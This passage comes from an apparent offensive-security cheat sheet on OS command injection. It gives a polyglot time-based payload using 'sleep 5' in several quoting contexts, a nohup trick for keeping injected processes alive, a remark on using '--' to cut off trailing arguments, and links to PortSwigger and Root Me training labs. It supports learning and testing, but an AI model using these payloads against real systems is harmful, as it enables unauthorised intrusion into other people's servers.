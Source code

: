 * Example 2:

  ```powershell
  Payload: /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

  # Context inside commands with single and double quote:
  echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
  echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
  ```

## Tricks

### Backgrounding Long Running Commands

In some instances, you might have a long running command that gets killed by the process injecting it timing out.
Using `nohup`, you can keep the process running after the parent process exits.

```bash
nohup sleep 120 > /dev/null &
```

### Remove Arguments After The Injection

In Unix-like command-line interfaces, the `--` symbol is used to signify the end of command options. After `--`, all arguments are treated as filenames and arguments, and not as options.

## Labs

* [PortSwigger - OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)
* [PortSwigger - Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)
* [PortSwigger - Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)
* [PortSwigger - Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
* [PortSwigger - Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)
* [Root Me - PHP - Command injection](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)
* [Root Me - Command injection - Filter bypass](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)
* [Root Me - PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
* [Root Me - PHP - preg_replace()](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)

### Challenge
